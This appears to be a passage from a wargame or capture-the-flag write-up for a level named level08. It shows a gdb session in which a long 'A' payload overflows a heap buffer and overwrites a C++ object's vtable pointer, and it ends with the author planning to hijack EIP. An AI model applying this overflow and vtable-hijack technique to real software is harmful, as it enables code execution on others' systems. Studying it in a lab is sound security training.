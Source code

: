```sh
(gdb) r $(python -c 'print "A" * 108 + "CCCC"')
Starting program: /levels/level08 $(python -c 'print "A" * 108 + "CCCC"')

Program received signal SIGSEGV, Segmentation fault.
0x08048726 in main ()
(gdb) i r
eax            0x43434343	1128481603
ecx            0x0	0
edx            0x0	0
ebx            0x804a078	134520952
esp            0xbffffc20	0xbffffc20
ebp            0xbffffc58	0xbffffc58
esi            0x0	0
edi            0x0	0
eip            0x8048726	0x8048726 <main+146>
eflags         0x10202	[ IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/10x 0x804a078
0x804a078:	0x43434343	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000
(gdb) x/10x 0x804a078-112
0x804a008:	0x080488c8	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141
(gdb)
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x41414141	0x41414141
(gdb)
0x804a058:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a068:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a078:	0x43434343	0x00000000
(gdb) disassemble 0x080488c8
Dump of assembler code for function _ZTV6Number:
   0x080488c0 <+0>:	add    %al,(%eax)
   0x080488c2 <+2>:	add    %al,(%eax)
   0x080488c4 <+4>:	aam    $0x88
   0x080488c6 <+6>:	add    $0x8,%al
   0x080488c8 <+8>:	loop   0x8048851 <__libc_csu_init+65>
   0x080488ca <+10>:	add    $0x8,%al
End of assembler dump.
```

Nice .. so we have the operator+ at 0x804a008 and then our buffer. So lets see if we can point it to our A's to control EIP
